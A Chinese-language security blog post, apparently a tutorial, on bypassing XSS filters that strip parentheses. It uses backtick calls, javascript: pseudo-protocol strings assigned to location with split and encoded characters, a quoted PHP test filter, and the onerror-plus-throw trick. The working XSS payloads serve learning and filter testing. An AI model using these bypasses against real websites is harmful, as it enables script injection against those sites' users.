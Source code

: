 ### 前言
- - -
这篇文章，主要是补充一些其他的。


![1](https://ws1.sinaimg.cn/large/005DAKuvgy1g2bqudnbs2j30h707b0up.jpg)

### “圆括号”
- - -
假设过滤了`()`，怎么进行弹框呢?如果仅仅只考虑这点，可执行payload还满多的。

最简单的，用反引号代替圆括号。

```html
<img src=x onerror=alert`1`>
```

引入伪协议，以及location，然后进行编码拆分。

`<img src=1 onerror=alert%28%29>`

`<img src=1 onerror=location="javascript:"+"aler"+"t%281%29">`

这里引用[P牛](https://www.leavesongs.com/PENETRATION/use-location-xss-bypass.html)文章的过滤代码，利用这个代码来测试学习。

```php
<?php
header('X-XSS-Protection: 0');
$xss = isset($_GET['xss'])?$_GET['xss']:'';
$xss = str_replace(array("(",")","&","\\","<",">","'","`"), '', $xss);
echo "<img src=\"{$xss}\">";
?>
```

我还特地过滤了反引号，不然用反引号代替括号直接弹。

来个好玩的例子，这个例子来自`XSS挑战第一期Writeup`的一个payload。

![2](https://ws1.sinaimg.cn/large/005DAKuvgy1g2cunu4f94j30de01pt8i.jpg)

我们既然不能用`()`，很多人第一思路肯定是url编码`()`，url编码为`%28%29`，而上面那个例子，通过赋值变量a等于字符串`"%2"`，巧妙通过+拼接字符串`(1)`。

成功弹窗。

![3](https://ws1.sinaimg.cn/large/005DAKuvgy1g2cuzzqpizj30vn0ak3zd.jpg)

#### Throw 
- - -

除了上面拼接编码的操作外，我们不得不提到`thorw`，在文档`“Modern Web Application Firewalls Fingerprinting and Bypassing XSS Filters”`中在提到了一个很有趣的话题。那就是在圆括号被过滤的情况下,如何去执行javascript，文中给出的答案是。
```
<a onmouseover="javascript:window.onerror=alert;throw 1>
```
`throw`语句用来抛出一个用户自定义的异常，而使用`onerror`来捕获异常，来完成弹窗这个操作。

看个例子：

![4](https://ws1.sinaimg.cn/large/005DAKuvgy1g2cyloci2lj30bj01d742.jpg)

伪协议执行，`onerror`捕获的异常，成功弹框。

![5](https://ws1.sinaimg.cn/large/005DAKuvgy1g2cyp5uuyfj30vn0amdgp.jpg)




